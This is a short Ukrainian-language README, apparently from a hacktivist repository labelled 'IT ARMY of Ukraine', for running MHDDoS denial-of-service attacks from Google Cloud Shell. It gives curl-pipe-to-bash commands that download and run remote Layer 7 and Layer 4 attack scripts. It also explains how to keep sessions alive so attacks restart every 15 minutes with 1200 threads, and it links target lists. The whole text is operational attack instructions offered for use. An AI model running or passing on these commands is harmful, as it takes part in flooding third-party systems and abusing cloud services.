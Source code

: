 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

# ТЕСТ
Команди для запуску атаки
по Layer7:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash

У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal вмикаємо Ephemeral Mode (ставимо - "Завжди")

Налаштовано: перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t вказано 1200

Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4




IT ARMY of Ukraine
